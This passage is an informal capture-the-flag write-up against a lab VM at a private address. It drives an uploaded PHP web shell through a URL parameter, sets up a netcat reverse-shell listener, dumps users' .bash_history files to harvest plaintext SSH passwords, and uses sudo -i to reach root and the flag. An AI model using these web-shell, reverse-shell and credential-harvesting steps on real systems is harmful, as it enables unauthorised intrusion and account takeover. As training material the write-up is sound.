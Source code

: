 >Hey ssup Rom1 from the fture once again, It was logic for me but i notice it's not really, those command are meant to be passe as the command argument in the shell_exec we've created upper, like so:
  https://192.168.122.136:12380/blogblog/wp-content/uploads/shelltest.php?cmd=python -c 'import pty;pty.spawn("/bin/bash")'
  So to listen to a port let's just use a `nc -vnl -p 443` and now the shell u spawn from you're php code have to be directed to ur ip address with the port 443



## I'm in *James bond music starts*

Once i'm in what i want to do is to see all the users commands (what they've typped in their terminal)so they guide me directly to importants files
bash_history does keep those informations so let's go

this command will so the work for us: `find -name ".bash_history" -exec cat {} \;`

and so one we got a lot of informations
and we have some ppl that have decided to connect with ssh and so we does have their passwd !! 

```bash 
sshpass -p thisimypassword ssh JKanode@localhost
#apt-get install sshpass      <--useless
sshpass -p JZQuyIN5 peter@localhost
```

so let's connect throught ssh
`ssh peter@192.168.122.136`


and does peter can use sudo?? GODDAMN YESSSSS
alright boiiis we're close to the end!! 

so i tried to get to my /root but nothing. the command seems to be blocked

so i thought about the "interactive mode" of sudo --> `sudo -i`
and then i'm able to navigate to it
HERE ARE THE FILE: 

```
----------<(Congratulations)>------------
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
```

HERE IS OUR FLAG BAAAABBYYYYY !!! 
we did itt;)))
